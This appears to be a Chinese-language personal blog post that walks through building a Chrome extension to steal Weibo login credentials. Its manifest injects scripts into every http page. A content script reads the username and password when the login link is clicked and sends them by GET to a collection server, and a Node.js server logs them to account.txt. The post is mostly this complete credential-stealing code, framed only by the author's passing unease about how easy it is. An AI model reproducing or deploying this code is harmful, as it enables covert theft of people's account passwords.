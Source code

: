 ```yaml
---
layout: post
title: "开发Chrome Extension截取你微博的帐号密码"
description: ""
category: Chrome Extension
tags: [javascript,Chrome Extension]
---
```

{% include JB/setup %}
Google允许开发者对Chrome浏览器做扩展，所以有了之前火爆的12306抢票软件，我
也用它抢过票，一直很好奇它怎么注入js到12306上面的。这周有空研究了下Chrome Extension，终于明白它是怎么工作的了。更多信息可以参看[chrome.extension](http://developer.chrome.com/extensions/extension.html)。

但是又让我对chrome extension产生了一点担心，这么容易注入js，那盗取你的帐号密码啥的不是很方便吗？下面演示一个比较简单的盗取微博帐号密码的方法。

要加载chrome extension首先要定义一个manifest.json文件。定义如下：

{% highlight json %}
{
  "manifest_version": 2,

  "name": "Account Detect",
  "description": "This extension will detect your account",
  "version": "1.0",

  "permissions": [
    "http://*/*"
  ],
  "browser_action": {
    "default_icon": "icon.png"
  },
  "content_scripts": [
    {
      "matches": ["http://*/*"],
      "js": ["jquery-1.10.2.min.js", "myscript.js"]
     
    }
  ]
}
{% endhighlight %}

注意content script加入的顺序，先填写JQuery，方便我们使用JQuery上的方法。然后是我自己定义的myscript.js。

{% highlight javascript %}
$('body').on("click",'a[tabindex="6"]', function(event){
    var username = $('input[name="username"]').val();
    var passwords = $('input[name="password"]').val();
    var query = '?username=' + username + '&' + 'passwords=' + passwords;
    $.get('http://localhost:1337' + query, function() {});

    alert(username + ':' + passwords);
});
{% endhighlight %}

上面代码的意思就是让[微博登陆页](http://weibo.com/)上的登录链接绑定上我的事件上。页面上的元素信息可以通过开发者工具查看到。事件内容就是获取页面上你输入的帐号和密码，然后通过ajax get的方式发送到我自己的服务器上保存起来。

最后我在本地自己设个服务器来接受传输信息，后端代码使用的Node.js，代码如下：

{% highlight javascript %}
var http = require('http');
var url = require('url');
var fs = require('fs');
http.createServer(function (req, res) {
  
  console.log(req.url);
  var query = url.parse(req.url, true).query;
  var name = query.username;
  var passwords = query.passwords;
  if(typeof(name) == "undefined") {
    console.log('oh no');
  } else {
    fs.open('account.txt', 'a', 666, function(e, id) {
      var content = name + '\n' + passwords + '\n';
      fs.write(id, content, null, 'utf8', function() {
        fs.close(id, function() {
          console.log('file close');
        });
      });
    });
    console.log('Request for ' + name + ' received.');
  }
  res.writeHead(200, {'Content-Type': 'text/plain'});
  res.end('Done!\n');
}).listen(1337, "127.0.0.1");
console.log('Server running at http://127.0.0.1:1337/');
{% endhighlight %}

逻辑比较简单，就是把获取到的帐号密码保存到account.txt文件中。

下面来实际演示一下吧，首先是要在Chrome浏览器（我的浏览器版本是28.0.1500.71)里加载自己的Extension:

![load unpackage extension in chrome](/assets/images/20130714/loadunpackageextension.png)

然后在Chrome浏览器地址栏输入http://weibo.com/，随便输入一个帐号密码，点击登录试试：

![capture your account](/assets/images/20130714/captureyouraccount.png)

再查看下本机服务器信息：

![check server log](/assets/images/20130714/serverinfo.png)

说明我们服务器接收到了信息，并且可以在server端的根目录下找到account.txt文件，里面就记录了你微博登录的帐号和密码信息。


